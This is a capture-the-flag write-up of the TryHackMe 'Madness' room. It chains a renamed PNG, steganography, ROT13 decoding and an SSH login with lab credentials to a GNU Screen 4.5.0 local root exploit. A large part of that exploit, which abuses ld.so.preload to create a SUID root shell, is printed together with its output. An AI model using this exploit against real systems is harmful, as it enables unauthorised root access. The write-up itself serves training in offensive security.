# Madness — TryHackMe

    


## Room Info

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Room | [Madness](https://tryhackme.com/room/madness) |
| Category | Steganography (chained with scripting + Linux privesc) |
| Difficulty | Medium |
| Time | ~45 min |
| Target OS | Ubuntu 16.04.6 LTS |
| Tools used | `wget`, `head`, hex editor, image viewer, browser dev tools, Python (`requests`), `steghide`, CyberChef (ROT13), `ssh`, `find`, exploit-db (CVE — GNU Screen 4.5.0 local privesc) |

## Objective

A single image file on a web server is the entry point. The room explicitly states brute forcing isn't required for initial access — but a numeric guessing puzzle (0–99) on a hidden web page is fair game to automate. From there it's a full chain: file-type spoofing → hidden directory discovery → steganography extraction → cipher decoding → SSH login → SUID binary enumeration → a public local privilege escalation exploit for root.

## Concept Glossary

**File Signatures / Magic Bytes**
Every real file format starts with a fixed sequence of bytes at the very beginning of the file — the "magic number" — that identifies its true type, independent of whatever extension it's been given. A genuine JPEG starts with `FF D8 FF E0` (plus a `JFIF` marker shortly after); a genuine PNG starts with `89 50 4E 47` (spells `.PNG` in ASCII) followed by a fixed control sequence. Renaming a file doesn't change its magic bytes — so `head`, `file`, or a hex editor on the raw bytes will always expose a mismatched extension. This is one of the fastest steganography/misdirection checks: if a `.jpg` won't open as a photo, check what it *actually* is before doing anything else.

**Steganography & `steghide`**
Steganography hides data *inside* another file (an image, audio, etc.) without visibly altering it, as opposed to cryptography which scrambles data openly. `steghide` is a common CLI tool for embedding/extracting hidden payloads in JPEG and BMP files, optionally protected with a passphrase:
```
steghide extract -sf <file>
```
prompts for the passphrase and, if correct, writes out whatever file was embedded. Critically, `steghide` only works on genuine JPEG/BMP structures — which is exactly why this room needed the file-signature step first: extraction only succeeds once the file is confirmed (and corrected) to actually be the format `steghide` expects.

**ROT13 / Caesar Ciphers**
ROT13 is a simple substitution cipher that shifts every letter 13 places through the alphabet (`A→N`, `B→O`, etc.), making it its own inverse — applying ROT13 twice returns the original text. It's not meant to be secure; it's a classic CTF/puzzle obfuscation layer, easily solved by eye for short strings or instantly with a tool like [CyberChef](https://gchq.github.io/CyberChef/).

**SUID Binaries & Local Privilege Escalation**
A Linux binary with the **SUID bit** set (`chmod +s`, shown as an `s` in `ls -l` permissions, or found in bulk with `find / -perm -4000`) runs with the *file owner's* privileges rather than the calling user's — so a SUID binary owned by `root` executes as root no matter who runs it. This is normally safe for a small, audited set of system tools (`su`, `mount`, `ping`, etc.), but outdated or vulnerable SUID binaries are a classic privesc vector: if the binary itself can be tricked into spawning a shell or writing a file it shouldn't, that action inherits root privileges. **GNU Screen 4.5.0** has a known local privesc (no formal CVE ID, tracked as EDB-ID 41154) where `screen`'s logging/file-handling behavior can be abused to overwrite `/etc/ld.so.preload` — a file that, if present, gets loaded into *every* subsequently executed program on the system, including root-owned ones.

**`ld.so.preload` Abuse**
`/etc/ld.so.preload` is a dynamic linker configuration file: any shared library (`.so`) path listed inside it gets force-loaded into every program that starts afterward, system-wide, before the program's own libraries. If an attacker can write to this file (via a SUID-exploitable binary like vulnerable GNU Screen), they can point it at a malicious `.so` containing a constructor function that runs automatically on load — using that hook to `chown`/`chmod` a prepared root shell to SUID-root, then cleaning up (`unlink`) the preload file so the system returns to normal afterward.

## Walkthrough

### 1. Fetching the Starting File

The room points to a single file hosted on the target's web server.


```bash
wget http://10.129.174.48/thm.jpg
```

### 2. File-Type Mismatch — It's Not Actually a JPEG

Before trying to open it, a quick `head` on the raw bytes shows something off immediately:


The file starts with `PNG` in plaintext — not a valid JPEG header at all. Confirming with a proper hex view:


```
00000000  89 50 4E 47  0D 0A 1A 0A  00 00 00 01 ...
```
`89 50 4E 47` is the real PNG signature. For comparison, a genuine JPEG's header looks like this instead:



```
00000000  FF D8 FF E0  00 10 4A 46  49 46 00 01 ...
```
`FF D8 FF E0` (JFIF marker) vs. `89 50 4E 47` (PNG) — confirmed, the file was a PNG renamed to `.jpg` as a deliberate misdirection.

**Why this works:** `head`/hex-editing is a two-second sanity check that should happen before any deeper analysis on a suspicious image file. Trusting the extension alone would've wasted time trying `steghide` against a format it can't parse correctly (mid-JPEG structures), or missed the visible hint entirely.

### 3. Renaming and Opening the True PNG

Renaming the file with a `.png` extension and opening it in an image viewer reveals the actual picture and a text hint baked into the image itself:



> hidden directory
> `/th1s_1s_h1dd3n`

### 4. Finding a Guessing Game on the Hidden Directory

Browsing to that path on the web server (and checking `view-source` first) shows a small challenge page:



```html
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->
```

A hidden HTML comment gives away the range: the "secret" is a number 0–99, passed as a GET parameter. Testing manually first confirms the mechanism:



```
http://10.129.174.48/th1s_1s_h1dd3n/?secret=0
→ "That is wrong! Get outta here!"
```

### 5. Scripting the Guess (100 Values, Not "Brute Forcing" the Box)

With only 100 possible values and a clear range given by the page itself, this is a small scripted loop rather than a credential/service brute force — the room's "no brute forcing required" note refers to things like SSH login, not this deliberately-provided guessing game.


```python
import requests

base = "http://10.129.174.48/th1s_1s_h1dd3n/?secret="

for i in range(100):
    url = base + str(i)
    try:
        response = requests.get(url, timeout=5)
        if "That is wrong!" not in response.text:
            print(f"[+] Possible secret: {i}")
            print(response.text)
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")
```

Running it finds the correct value and reveals a passphrase in the page response:


```
[+] Possible secret: 73
...
Secret Entered: 73
Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B
```

That trailing string (`y2RPJ4QaPF!B`) reads like a steganography passphrase — which is exactly what it turns out to be.

### 6. Extracting the Hidden Data with `steghide`

Feeding that passphrase into `steghide` against the original image (once correctly identified as a PNG earlier, worth noting `steghide` here still targeted the original `thm.jpg` file content) pulls out an embedded file:



```bash
steghide extract -sf thm.jpg
Enter passphrase: y2RPJ4QaPF!B
wrote extracted data to "hidden.txt".
```

### 7. Reading the Extracted Data — A ROT13'd Username

```bash
cat hidden.txt
```


```
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

`wbxre` doesn't look like a real username — a quick eyeball test (or just trying ROT13, the classic CTF default) confirms it's ciphered.

### 8. Decoding the Username with ROT13 (CyberChef)



```
Input:  wbxre
ROT13 → joker
```

**Username confirmed: `joker`**

### 9. A Second Hidden Image — Extracting the Password with `steghide`

The room references a second image asset (`5iW7kC8.jpg`, the "We're all mad here" Cheshire-cat artwork hosted on TryHackMe's asset CDN):



With that image downloaded locally, running `steghide` against it — using the same passphrase recovered earlier (`y2RPJ4QaPF!B`) — extracts a second hidden file:


```bash
steghide extract -sf 5iW7kC8.jpg
Enter passphrase: y2RPJ4QaPF!B
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".
```

**Why this works:** the same passphrase that unlocked `thm.jpg` earlier was reused across a second stego'd image — a reminder that once you've cracked a passphrase in a chain like this, it's worth trying it again against any other suspicious file before assuming you need a fresh one.

### 10. Reading the Password and Logging In via SSH



```bash
cat password.txt
```
```
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

```bash
ssh joker@10.129.174.48
# password: *axA&GF8dP
```

Login succeeds — shell access as `joker` on Ubuntu 16.04.6 LTS.

### 11. Grabbing `user.txt`

```bash
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
```



> **Not captured** — the terminal output was cut off before the flag value rendered in the screenshot. Flag value to be added once re-confirmed.

### 12. Hunting for a Privilege Escalation Path — SUID Binaries

Standard first move once shell access is confirmed: enumerate SUID binaries for anything exploitable.

```bash
find /bin -perm -4000
```


Most entries (`su`, `mount`, `ping`, `umount`, `fusermount`, `ping6`) are expected, standard SUID tools. Two stand out:

```
/bin/screen-4.5.0
/bin/screen-4.5.0.old
```

An old, SUID-flagged copy of GNU Screen — version 4.5.0 specifically has a known public local privilege escalation exploit.

### 13. Identifying the Exploit — GNU Screen 4.5.0 Local Privesc

A quick search on Exploit-DB confirms the match:



- **EDB-ID:** 41154
- **Type:** Local
- **Author:** Xiphos Research Ltd
- **Date:** 2017-01-25

### 14. The Exploit Script

The exploit (`screenroot.sh`) abuses `ld.so.preload` overwriting, as described in the glossary above:


```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html

echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library ... "
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
# ...continues: compiles rootshell.c, then uses `screen`'s
# logfile/library-loading behavior (SUID root) to write
# libhax.so's path into /etc/ld.so.preload — forcing every
# subsequently-run program to load it first, triggering
# dropshell() as root, which chmods rootshell to SUID-root
# and removes the preload file to clean up after itself.
```

**How it works, step by step:**
1. Compiles a tiny shared library (`libhax.so`) whose constructor function runs automatically the moment it's loaded — no need to call it manually.
2. That constructor `chown`s and `chmod`s a not-yet-compiled `/tmp/rootshell` to be owned by root and SUID-executable, then deletes `/etc/ld.so.preload` to erase its own tracks.
3. Compiles `rootshell.c`, a minimal program that drops straight to UID/GID 0 and execs `/bin/sh`.
4. Abuses the vulnerable SUID `screen` binary's logging behavior to get `libhax.so`'s path written into `/etc/ld.so.preload`.
5. The instant *any* program runs afterward, the dynamic linker force-loads `libhax.so` first (because it's SUID-root's preload file) — running `dropshell()` with root privileges, which finishes SUID-flagging `/tmp/rootshell`.
6. Running `/tmp/rootshell` now drops a root shell.

### 15. Running the Exploit

```bash
joker@ubuntu:~$ ./exploit.sh
```



```
~ gnu/screenroot ~
[+] First, we create our shell and library ...
...
[+] Now we create our /etc/ld.so.preload file ...
[+] Triggering ...
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
#
```

**Root shell confirmed.**

### 16. Grabbing `root.txt`

Root shell access itself is fully confirmed by the `whoami` output above. The flag value from `cat root.txt` wasn't captured in a screenshot, so per the honest-capture rule:

> **Not captured** — root access confirmed via `whoami`, but the `root.txt` flag value itself wasn't screenshotted.

## Full Lessons Learned

This room chains four genuinely distinct skill areas, and each one gated the next — skipping any step meant the rest of the chain was unreachable:

1. **Never trust a file extension.** The very first move on any suspicious file should be checking its actual magic bytes. A renamed PNG masquerading as a `.jpg` would have silently broken `steghide` (which expects real JPEG/BMP structure) if the mismatch hadn't been caught and corrected first.
2. **HTML comments are not private.** The hidden-directory hint for the secret guessing game (`<!-- It's between 0-99... -->`) was sitting in plain HTML source, visible to anyone who checked `view-source` instead of just eyeballing the rendered page.
3. **Steganography passphrases can hide in plain UI text.** The `y2RPJ4QaPF!B` passphrase wasn't disguised at all once you got the right secret value — it just required the earlier steps to be completed correctly to even see it.
4. **Enumerate SUID binaries early and check versions.** `find / -perm -4000` should be one of the first commands run after any low-priv shell — and any non-standard or outdated entry (like a stray `screen-4.5.0` sitting next to the system's normal binaries) is worth checking against Exploit-DB immediately.
5. **`ld.so.preload` is an extremely powerful, easily-abused file.** Anything that can write to it — even indirectly through a vulnerable SUID binary — effectively gets code execution as root the next time literally anything runs on the system.

## Skills Demonstrated

`File Signature / Magic Byte Analysis` `Steganography (steghide)` `Python Scripting & HTTP Automation` `ROT13 / Cipher Decoding` `SSH Access` `SUID Binary Enumeration` `Public Exploit Research & Usage` `Linux Local Privilege Escalation` `ld.so.preload Abuse`

## References

- [TryHackMe — Madness](https://tryhackme.com/room/madness)
- [Exploit-DB 41154 — GNU Screen 4.5.0 Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)
- [GNU Screen bug report — screen-devel mailing list](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)
- [steghide — official tool page](http://steghide.sourceforge.net/)
- [CyberChef](https://gchq.github.io/CyberChef/) — used for ROT13 decoding
